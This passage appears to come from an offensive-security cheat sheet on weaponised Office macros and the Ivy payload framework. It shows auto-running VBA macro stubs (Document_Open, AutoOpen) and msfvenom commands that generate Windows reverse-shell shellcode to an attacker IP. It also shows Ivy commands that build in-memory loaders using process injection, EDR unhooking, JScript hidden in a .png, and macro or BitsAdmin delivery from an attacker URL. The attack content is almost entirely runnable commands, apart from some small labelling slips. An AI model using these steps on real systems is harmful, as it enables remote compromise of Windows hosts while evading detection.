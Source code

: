 ```vba
    Application.Run MacroName:="test"
End Sub

Sub Document_Open()
    test
End Sub
Sub AutoOpen()
    test
End Sub
```
{% endcode %}
{% endtab %}

{% tab title="Ivy" %}
[Ivy](https://github.com/optiv/Ivy) is a payload creation framework for the execution of arbitrary VBA (macro) source code directly in memory. Ivy’s loader does this by utilizing programmatical access in the VBA object environment to load, decrypt and execute shellcode.

First, we have to generate payload for both x86 and x64 architecture:

```bash
#x64
msfvenom -p -a x64 windows/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f raw > stageless64.bin

#x64
msfvenom -p -a x86 windows/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f raw > stageless86.bin
```

Now we can generate the malicious js file that will load our payload.

```bash
# Inject mode performs a process injection attack 
# where a new process is spawned in a suspended state and the shellcode is injected into the process
# This is for a Stagless Injected payload spawning notepad.exe
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless86.bin -P Inject -process64 C:\\windows\\system32\\notepad.exe -process32 C:\\windows\\SysWOW64\\notepad.exe -O stageless.js 

# The stealthier option is Local. This loads the shellcode directly into the current Office process.
# It comes with additional features to avoid detection 
# This is for a Unhooked Stagless Local payload
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless86.bin -P Local -unhook -O stageless.js

# This is for Non-Executable File Types payload
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless86.bin -P Local -unhook -O stageless.png
```

We can execute this payload by using cscript.exe or build a loader using MSHTA.exe, Macro downloader, Stylesheet Ivy options:

```bash
# Simply execute payload on the windows target (stageless.png contains js)
cscript //E:jscript stageless.png

#Generate a Js payload and an evil macro for delivery
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless86.bin -P Inject -unhook -O stageless.js -delivery macro -url http://ATTACKING_IP

#Generate a Js payload oneliner for BitsAdmin delivery
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.js -url http://ATTACKING_IP -delivery bits -stageless

#Gneerate a XSL payload and oneliner for Stylsheet delivery
```